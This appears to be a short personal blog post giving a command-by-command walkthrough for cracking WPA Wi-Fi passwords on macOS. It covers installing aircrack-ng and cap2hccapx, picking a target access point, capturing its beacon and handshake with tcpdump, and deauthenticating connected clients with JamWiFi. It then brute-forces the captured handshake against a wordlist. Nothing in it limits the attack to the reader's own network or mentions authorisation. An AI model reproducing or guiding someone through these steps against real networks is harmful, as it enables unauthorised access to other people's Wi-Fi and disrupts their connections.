 ```yaml
---
layout: post
title: "Cracking WIiFi"
categories: tech
---
```


#Cracking wifi with MacOS

##Installing requirements
1. Install *Homebrew*
`ruby -e "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/master/install)"`
1. Install *cap2hccapx* from [JamWiFi](https://github.com/0x0XDev/JamWiFi)
`wget https://raw.githubusercontent.com/hashcat/hashcat-utils/master/src/cap2hccapx.c`
`gcc -o cap2hccapx cap2hccapx.c`
`sudo mv cap2hccapx /usr/local/bin/cap2hccapx`
`rm cap2hccapx.c`
1. Build with **make** the src folder of [hashcat-utils](https://github.com/hashcat/hashcat-utils) and copy cap2hccapx.bin to your working directory.
1. Install *aircrack-ng*
`brew install aircrack-ng`
1. Add *aircrack-ng* to path
1. Add *airport* to path
`sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport`

##Start cracking
1. Open JamWiFi. Press **Scan**.
1. Choose target. The less **RRSSI**, the better signal it has. (Ex. -54 is better than -74).
1. Copy the **BSSID** and **CHANNEL** of the selected target Access Point. (Change the data between <>, with these characters included, for the correct data.)
`export BSSID=<TARGET-BSSID>`
`export CHANNEL=<TARGET-CHANNEL>`
1. Disconnect from the wifi you are connected to, without disabling it. Use `sudo airport -z`
1. `sudo airport -c$CHANNEL`
1. Capture the bacon
`sudo tcpdump "type mgt subtype beacon and ether src $BSSID" -I -c 1 -i en0 -w beacon.cap`
1. Capture handshake
`sudo tcpdump "ether proto 0x888e and ether host $BSSID" -I -U -vvv -i en0 -w handshake.cap`
1. On JamWiFi choose the target and press **Deauth**, press **Monitor**, wait for some *Packets* to load and then **Do it!**. When you get ~50 *Deauths* press **Done.**
1. CTRL+C on the Terminal to terminate the capturing of handshake.
1. Merge the Beacon and Handshake
`mergecap -a -F pcap -w capture.cap beacon.cap handshake.cap`
1. Convert cap to hccapx
`cap2hccapx capture.cap capture.hccapx`
If it says 'Written 0 WPA Handshakes to: capture.hccapx', try again to capture 
1. Starting brute force with wordlist. Change last data with path to your wordlist file.
`aircrack-ng -1 -a 1 -b $BSSID capture.hccapx -w <wordlist>`

##Source
1. [https://martinsjean256.wordpress.com/2018/02/12/hacking-aircrack-ng-on-mac-cracking-wi-fi-without-kali-in-parallels/](https://martinsjean256.wordpress.com/2018/02/12/hacking-aircrack-ng-on-mac-cracking-wi-fi-without-kali-in-parallels/)
1. [https://medium.com/@jansalvadorsebastian/hacking-wi-fi-penetration-on-macos-bc1f0f0f6296](https://medium.com/@jansalvadorsebastian/hacking-wi-fi-penetration-on-macos-bc1f0f0f6296)
1. [https://louisabraham.github.io/articles/WPA-wifi-cracking-MBP.html](https://louisabraham.github.io/articles/WPA-wifi-cracking-MBP.html)
1. [https://usedmyhead.blogspot.com/2017/06/como-hackear-contrasenas-wpa-wpa2-psk.html](https://usedmyhead.blogspot.com/2017/06/como-hackear-contrasenas-wpa-wpa2-psk.html)
